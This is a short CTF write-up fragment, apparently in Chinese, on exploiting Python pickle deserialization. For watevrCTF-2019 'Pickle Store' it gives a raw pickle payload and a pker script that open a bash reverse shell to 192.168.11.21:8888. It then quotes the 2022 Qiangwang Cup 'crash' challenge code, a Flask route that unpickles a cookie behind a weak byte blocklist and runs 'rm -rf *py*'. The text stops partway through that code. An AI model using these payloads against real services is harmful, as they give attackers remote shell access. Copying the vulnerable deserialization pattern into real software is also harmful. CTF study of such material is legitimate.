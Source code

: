 #### watevrCTF-2019:Pickle Store

payload

```
b'''cos
system
(S"bash -c 'bash -i >& /dev/tcp/192.168.11.21/8888 0>&1'"
tR.
'''
```

pker生成

```
system=GLOBAL('os', 'system')
system('bash -c "bash -i >& /dev/tcp/192.168.11.21/8888 0>&1"')
return
```

###  2022强网杯--crash

```python
import base64
# import sqlite3
import pickle
from flask import Flask, make_response,request, session
import admin
import random

app = Flask(__name__,static_url_path='')
app.secret_key=random.randbytes(12)

class User:
    def __init__(self, username,password):
        self.username=username
        self.token=hash(password)

def get_password(username):
    if username=="admin":
        return admin.secret
    else:
        # conn=sqlite3.connect("user.db")
        # cursor=conn.cursor()
        # cursor.execute(f"select password from usertable where username='{username}'")
        # data=cursor.fetchall()[0]
        # if data:
        #     return data[0] 
        # else:
        #     return None
        return session.get("password")

@app.route('/balancer', methods=['GET', 'POST'])
def flag():
    pickle_data=base64.b64decode(request.cookies.get("userdata"))
    if b'R' in pickle_data or b"secret" in pickle_data:
        return "You damm hacker!"
    os.system("rm -rf *py*")
    userdata=pickle.loads(pickle_data)
    if userdata.token!=hash(get_password(userdata.username)):
         return "Login First"
    if userdata.username=='admin':
        return "Welcome admin, here is your next challenge!"
    return "You're not admin!"

@app.route('/login', methods=['GET', 'POST'])
```